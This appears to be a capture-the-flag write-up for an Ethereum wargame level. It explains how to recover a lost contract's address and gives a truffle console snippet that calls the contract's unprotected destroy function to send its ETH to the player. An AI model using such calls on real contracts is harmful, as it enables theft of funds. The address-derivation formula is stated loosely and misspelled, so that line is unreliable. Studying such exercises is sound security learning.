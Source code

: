 ### Analysis
The easiest way to solve this problem is by viewing the transaction that created the contract in Etherscan and following where our 0.001 ETH goes. 
Another way to get the lost address is by utilizing the fact that creation of addresses of Ethereum is deterministic and can be calculated by:
~~~
keccack256(address, nonce)
~~~


### The Exploit
Run the code in truffle console:
~~~
functionSignature = {
    name: 'destroy',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_to'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)

await web3.eth.sendTransaction({from: player, to: tokenAddr, data})
~~~
